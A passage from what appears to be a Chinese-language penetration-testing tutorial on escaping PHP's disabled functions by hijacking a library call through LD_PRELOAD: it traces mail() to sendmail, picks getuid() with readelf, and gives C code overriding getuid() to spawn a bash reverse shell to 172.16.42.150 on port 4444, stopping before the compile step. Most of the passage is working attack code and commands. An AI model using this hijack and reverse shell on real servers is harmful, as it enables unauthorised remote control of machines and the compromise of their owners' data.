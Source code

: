 mail() 内部启动了 /usr/sbin/sendmail进程，至此我们已经发现了启动新进程的php函数。





### 5.2 找到php函数调用的库函数

`readelf -Ws /usr/sbin/sendmail`查看调用哪些库函数

择劫持那些无参数且常用的系统函数，getuid() 就适合

```
[root@vuln html]# readelf -Ws /usr/sbin/sendmail | grep getuid
    64: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND getuid@GLIBC_2.2.5 (2)
You have new mail.
```

查看用法

```
man 2 getuid
```

```
SYNOPSIS
       #include <unistd.h>
       #include <sys/types.h>

       uid_t getuid(void);
       uid_t geteuid(void);
```

劫持代码

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("bash -c 'bash -i >& /dev/tcp/172.16.42.150/4444 0>&1'");
}

uid_t getuid() {
    if (getenv("LD_PRELOAD") == NULL) {
    	return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```



### 5.3 用LD_PRELOAD劫持库函数的调用

执行命令编译生成 hook_getuid.so：
